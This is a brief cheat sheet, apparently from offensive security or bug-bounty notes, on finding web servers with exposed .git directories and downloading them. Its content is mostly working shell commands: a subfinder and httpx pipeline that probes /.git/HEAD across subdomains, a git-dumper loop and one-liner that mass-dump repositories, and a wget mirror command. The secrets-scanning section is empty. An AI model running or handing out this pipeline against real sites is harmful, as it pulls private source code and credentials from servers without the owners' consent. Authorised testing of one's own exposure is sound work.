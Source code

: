 # How to Hunt for Exposed .git Dorectories

## Dumping the Repo
```bash
echo example.com | subfinder -all -o subs.txt

cat subs.txt | httpx-toolkit -path /.git/HEAD -silent -mr "refs/heads" -rl 500 | tee git.txt 

cat git.txt | cut -d '/' -f1,2,3,4 | while read url; do git-dumper $url git-dumper/$url; done
```

One Liner
```bash
echo example.com | subfinder -all | httpx-toolkit -path /.git/HEAD -silent -mr "refs/heads" -rl 500 | cut -d '/' -f1,2,3,4 | while read url; do git-dumper $url git-dumper/$url; done
```

Manual Dump
```bash
wget --mirror -I .git https://example.com/.git/
```

## Scanning the Repo for Secrets
```bash

```


Resources
- [Web security - exposed .git folder in production](https://medium.com/smallcase-engineering/web-security-exposed-git-folder-in-production-51ad9484dee0)
- [Git Exposed - How to Identify and Exploit](https://medium.com/stolabs/git-exposed-how-to-identify-and-exploit-62df3c165c37)
- [Red Book - Exposed Git Repositories](https://github.com/v4resk/red-book/blob/main/web/web-vulnerabilities/server-side/exposed-git-repositories.md)
